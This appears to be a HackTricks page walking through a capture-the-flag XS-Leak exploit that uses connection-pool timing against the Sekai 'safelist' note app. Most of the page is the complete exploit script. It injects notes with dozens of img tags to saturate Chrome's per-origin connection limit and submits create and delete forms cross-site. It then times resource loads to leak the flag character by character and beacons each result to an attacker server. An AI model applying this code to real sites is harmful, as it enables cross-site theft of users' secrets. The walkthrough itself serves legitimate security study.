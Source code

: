 # Connection Pool by Destination Example

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}

In [**this exploit**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-safelist-html), [**@terjanq**](https://twitter.com/terjanq) proposes yet another solution for the challenged mentioned in the following page:

{{#ref}}
connection-pool-by-destination-example.md
{{#endref}}

Let's see how this exploit work:

- The attacker will inject a note with as many **`<img`** tags **loading** **`/js/purify.js`** as possible (more than 6 to block the origin).
- Then, the attacker will **remove** the **note** with index 1.
- Then, the attacker will \[make the **bot access the page** with the reminding note] and will send a **request** to **`victim.com/js/purify.js`** that he will **time**.
  - If the time is **bigger**, the **injection** was in the **note** left, if the time is **lower**, the **flag** was in there.

> [!TIP]
> Tbh, reading the script I missed some part where the **attacker makes the bot load the page to trigger the img tags**, I don't see anything like that in the code

```html
<html>
  <head>
    <script>
      const SITE_URL = "https://safelist.ctf.sekai.team/"
      const PING_URL = "https://myserver"
      function timeScript() {
        return new Promise((resolve) => {
          var x = document.createElement("script")
          x.src =
            "https://safelist.ctf.sekai.team/js/purify.js?" + Math.random()
          var start = Date.now()
          x.onerror = () => {
            console.log(`Time: ${Date.now() - start}`) //Time request
            resolve(Date.now() - start)
            x.remove()
          }
          document.body.appendChild(x)
        })
      }

      add_note = async (note) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "create"
        x.method = "POST"
        x.target = "xxx"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "text"
        i.value = note
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      remove_note = async (note_id) => {
        let x = document.createElement("form")
        x.action = SITE_URL + "remove"
        x.method = "POST"
        x.target = "_blank"

        let i = document.createElement("input")
        i.type = "text"
        i.name = "index"
        i.value = note_id
        x.appendChild(i)
        document.body.appendChild(x)
        x.submit()
      }

      const sleep = (ms) => new Promise((resolve) => setTimeout(resolve, ms))
      // }zyxwvutsrqponmlkjihgfedcba_
      const alphabet = "zyxwvutsrqponmlkjihgfedcba_"
      var prefix = "SEKAI{xsleakyay"
      const TIMEOUT = 500
      async function checkLetter(letter) {
        // Chrome puts a limit of 6 concurrent request to the same origin. We are creating a lot of images pointing to purify.js
        // Depending whether we found flag's letter it will either load the images or not.
        // With timing, we can detect whether Chrome is processing purify.js or not from our site and hence leak the flag char by char.
        const payload =
          `${prefix}${letter}` +
          Array.from(Array(78))
            .map((e, i) => `<img/src=/js/purify.js?${i}>`)
            .join("")
        await add_note(payload)
        await sleep(TIMEOUT)
        await timeScript()
        await remove_note(1) //Now, only the note with the flag or with the injection existsh
        await sleep(TIMEOUT)
        const time = await timeScript() //Find out how much a request to the same origin takes
        navigator.sendBeacon(PING_URL, [letter, time])
        if (time > 100) {
          return 1
        }
        return 0
      }
      window.onload = async () => {
        navigator.sendBeacon(PING_URL, "start")
        // doesnt work because we are removing flag after success.
        // while(1){
        for (const letter of alphabet) {
          if (await checkLetter(letter)) {
            prefix += letter
            navigator.sendBeacon(PING_URL, prefix)
            break
          }
        }
        // }
      }
    </script>
  </head>
  <body></body>
</html>
```

{#include ../../../../../../home/runner/work/HackTricks-Feed/HackTricks-Feed/src/banners/hacktricks-training.md}


